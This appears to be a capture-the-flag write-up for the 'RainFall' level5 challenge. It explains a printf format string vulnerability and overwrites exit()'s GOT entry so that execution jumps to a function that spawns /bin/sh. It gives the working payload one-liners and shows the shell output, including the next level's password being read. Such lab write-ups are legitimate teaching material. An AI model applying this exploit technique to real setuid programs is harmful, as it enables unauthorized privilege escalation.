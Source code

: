 ## Basic analysis
There is level5 binary waiting for us and again, it behaves just the same - printing what it reads from stdin:
~~~shell
./level5
42 let me pass
42 let me pass
~~~
OK, Ghidra it is:
~~~C
void main(void)

{
  n();
  return;
}

void n(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
~~~
This time **main()** calls the function **n()** which just prints the input and exits. Upon further examination, we will find
another function, **o()**:
~~~C
void o(void)

{
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  _exit(1);
}
~~~
This, as we can see, will be our target as it will trigger the shell for us. Memory position: **0x080484a4**

## Format string attack
We will be using format string attack again, but there is one big difference here: as we can see, both **o()** and **n()** does not
return, but using **exit()** instead, preventing the overwrite with format string. Thus, we will have to overwrite the call to exit with the **o()** function.

We will do this by overwriting the **GOT** (Global Offset Table] address - we will link it to the **o()** function.
We can use Ghidra's symbol tree to find **.got.plt** object - which is a part of GOT with pointers to funtions from the **PLT** (Procedure Linkage Table). In simple terms, it is a contact list to functions called from outside of the binary runtime. When we examine the .obj.plt, we find out that the address of **exit** is **0x08049838**.
Now, we can prepare the payload:
~~~shell
address of exit() in hex - %addressofoindecimalx + positioning of exit
~~~
We will firstly find the exit() function:
~~~shell
level5@RainFall:~$ python -c "print '\x08\x04\x98\x38'[::-1] + '%x '*10" | ./level5
8200 b7fd1ac0 b7ff37d0 8049838 25207825 78252078 20782520 25207825 78252078 20782520 
~~~
Bingo! Number 4. Decimal for 0x080484a4 (o()) is **134513824** And here we go with the payload:
~~~shell
level5@RainFall:~$ python -c "print '\x08\x04\x98\x38'[::-1] + '%134513824x%4\$n'" > /tmp/flag5
level5@RainFall:~$ cat /tmp/flag5 - | ./level5

[...lots of stuff...]
              2000
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
~~~



